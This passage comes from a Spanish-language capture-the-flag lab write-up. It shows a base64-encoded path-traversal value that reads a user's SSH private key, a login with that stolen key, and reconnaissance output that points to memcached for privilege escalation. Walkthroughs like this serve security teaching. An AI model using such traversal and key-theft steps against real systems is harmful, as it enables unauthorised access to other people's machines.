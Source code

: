 Así que hacemos lo mismo para hacernos con la llave privada
```bash
$: echo -n "../.ssh/id_rsa" | base64 -w0
Li4vLnNzaC9pZF9yc2E= 
```

Intentamos acceder a `berlin` pero no nos lo permite
```bash
$: ssh -i id_rsa berlin@10.10.10.131
berlin@10.10.10.131's password:
```

--------------------------
# Escalada de privilegios

Pero tenemos mas usuarios, se intenta uno a uno hasta que
```bash
$: ssh -i id_rsa professor@10.10.10.131

 _             ____                  ____         ____                  _
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|

lacasadepapel [~]$ echo $SHELL
/bin/ash
```

Si subo [mi script de reconocimiento](https://github.com/jessica-diaz-ciber/Pentesting-tools/blob/main/lin_info.sh) y lo ejecuto:
```bash
  >  Carpetas home de los diferentes usuarios
berlin >
lrwxrwxrwx  1 berlin berlin    9 Nov  6  2018 .ash_history -> /dev/null
drwx------  2 berlin berlin 4096 Jan 31  2019 .ssh
...
professor >
lrwxrwxrwx 1 root      professor    9 Nov  6  2018 .ash_history -> /dev/null
drwx------ 2 professor professor 4096 Jan 31  2019 .ssh
-rw-r--r-- 1 root      root        88 Jan 29  2019 memcached.ini
-rw-r----- 1 root      nobody     434 Jan 29  2019 memcached.js
drwxr-sr-x 9 root      professor 4096 Oct  3  2022 node_modules

           PROCESOS   

PID   USER     TIME  COMMAND
...
 3129 root      0:02 /usr/bin/vmtoolsd
 3159 memcache  0:00 /usr/bin/memcached -d -p 11211 -U 11211 -l 127.0.0.1 -m 64 -c 1024 -u memcached -P /var/run/memcached/memcached-11211.pid
```
Al encontrado varias cosas relacionadas con `memecached`, debemos suponer que la escalada tiene que ver con eso.
El usuario `professor` tiene dos archivos relacionados con el memcached, pertenecientes a root.
